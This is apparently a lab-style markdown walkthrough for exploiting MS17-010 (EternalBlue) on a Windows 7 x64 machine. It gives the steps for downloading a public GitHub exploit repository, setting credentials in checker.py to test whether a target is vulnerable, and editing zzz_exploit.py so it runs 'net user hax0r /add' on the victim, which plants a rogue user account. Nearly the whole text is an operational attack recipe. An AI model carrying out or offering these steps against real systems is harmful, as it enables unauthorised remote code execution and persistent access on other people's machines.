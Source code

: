 # MS17-010 Manualy

On Victim machine:


Windows 7 x64

Open share from unprivileged user.


On attacker machine: 

Download MS17-010 from Github:

https://github.com/worawit/MS17-010



Check if victim machine is vulnerable to MS17-010:

From MS17-010 directory :

At ‘checker.py’ script, update ‘USERNAME’ and ‘PASSWORD’ variable to relevance (unprivilege user) in the beginning of script.



Run Checker:

<b>python checker.py \<target ip\></b>


At ‘zzz_exploit.py’ script, update ‘USERNAME’ and ‘PASSWORD’ variable to relevance, and <b>‘def smb_pwn’</b> function to include command to execute:

  <b>service_exec(conn, r'cmd /c net user hax0r /add')</b>


To run ‘zzz_exploit.py’:


<b>python zzz_exploit.py \<target ip\> lsarpc</b>
